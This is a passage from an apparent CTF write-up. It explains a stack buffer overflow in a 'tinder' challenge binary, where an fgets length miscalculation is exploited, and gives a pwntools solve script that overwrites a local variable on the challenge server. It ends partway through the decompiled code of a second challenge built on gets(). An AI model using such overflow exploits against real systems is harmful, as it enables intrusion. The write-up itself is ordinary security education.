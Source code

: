 ```c
```
The goal is pretty obvious, set the local_14 variable to a certain value. What got me stuck for a really long time and should have been really obvious was the fact that input was not a standard c function. I was confused for a while and kept looking online for the manpage but couldn't find anything. This was a n impotant lesson to first look at all user defined functions before trying to exploit a binary. Now, if we look at what the input function does the vulnerability is obvious.
```c
fgets(str,(int)ROUND(f * 16.00000000),stdin);
```
Essentially this gets will take in `f * 16` amount of bytes. For all the buffers besides bio this is a correct calculation. However, the program will take in `8 * 16 = 128` bytes for the bio buffer which is only 64 bytes. Now with this buffer overflow all we have to do is set a variable on the stack to a certain value. The concept which needs to be understood for this problem is that the buffers and variables are all stored on the stack. This means by overflowing the buffer, we are able to change the value of other variables as well. How I found the offset to the local_14 variable was by brute forcing the offset using a for loop and seeing when the flag would be printed out. I'm sure there are smarter ways but this worked for me. My final solve script is the following:
```python
from pwn import *  
  
context.terminal = ['tmux', 'split', '-h']  
context.log_level = 'debug'  
  
r =remote('p1.tjctf.org', 8002)  
#r = process('./tinder')  
#gdb.attach(r)  
  
r.recv()  
r.sendline('A')  
r.recv()  
r.sendline('A')  
r.recv()  
r.sendline('A')  
r.recv()  
r.sendline('A'*116 + p32(0xC0D3D00D))  
r.recv()  
r.recv()  
  
r.interactive()
``` 

#### Seashells
```
Written by KyleForkBomb

I heard there's someone selling shells? They seem to be out of stock though...

`nc p1.tjctf.org 8009`
```

The following is the decompilation of seahsells from ghidra.
```c
{
  int iVar1;
  char local_12 [10];
  
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("Welcome to Sally\'s Seashore Shell Shop");
  puts("Would you like a shell?");
  gets(local_12);
  iVar1 = strcasecmp(local_12,"yes");
  if (iVar1 == 0) {
    puts("sorry, we are out of stock");
```
